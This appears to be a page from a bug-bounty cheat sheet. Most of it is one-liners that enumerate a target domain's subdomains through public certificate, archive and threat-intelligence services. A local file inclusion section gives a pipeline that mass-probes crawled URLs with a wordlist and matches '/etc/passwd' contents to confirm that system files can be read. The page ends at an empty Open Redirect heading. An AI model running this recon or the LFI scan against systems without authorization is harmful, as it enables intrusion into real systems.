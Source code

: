 ```

curl -s "https://riddler.io/search/exportcsv?q=pld:target.com" | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u 

## from RedHunt Labs Recon API
curl --request GET --url 'https://reconapi.redhuntlabs.com/community/v1/domains/subdomains?domain=<target.com>&page_size=1000' --header 'X-BLOBR-KEY: API_KEY' | jq '.subdomains[]' -r

## from nmap
nmap --script hostmap-crtsh.nse target.com

## from CertSpotter
curl -s "https://api.certspotter.com/v1/issuances?domain=target.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u

## from Archive
curl -s "http://web.archive.org/cdx/search/cdx?url=*.target.com/*&output=text&fl=original&collapse=urlkey" | sed -e 's_https*://__' -e "s/\/.*//" | sort -u

## from JLDC
curl -s "https://jldc.me/anubis/subdomains/target.com" | grep -Po "((http|https):\/\/)?(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u

## from crt.sh
curl -s "https://crt.sh/?q=%25.target.com&output=json" | jq -r '.[].name_value' | sed 's/\*\.//g' | sort -u

## from ThreatMiner
curl -s "https://api.threatminer.org/v2/domain.php?q=target.com&rt=5" | jq -r '.results[]' |grep -o "\w.*target.com" | sort -u

## from Anubis
curl -s "https://jldc.me/anubis/subdomains/target.com" | jq -r '.' | grep -o "\w.*target.com"

## from ThreatCrowd
curl -s "https://www.threatcrowd.org/searchApi/v2/domain/report/?domain=target.com" | jq -r '.subdomains' | grep -o "\w.*target.com"

## from HackerTarget
curl -s "https://api.hackertarget.com/hostsearch/?q=target.com"

## from AlienVault
curl -s "https://otx.alienvault.com/api/v1/indicators/domain/tesla.com/url_list?limit=100&page=1" | grep -o '"hostname": *"[^"]*' | sed 's/"hostname": "//' | sort -u

## from Censys
censys subdomains target.com

## from subdomain center
curl "https://api.subdomain.center/?domain=target.com" | jq -r '.[]' | sort -u
```
--------
## LFI:
```
cat targets.txt | (gau || hakrawler || waybackurls || katana) |  grep "=" |  dedupe | httpx -silent -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST -status-code -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
```
----------------------
## Open Redirect:
```
```
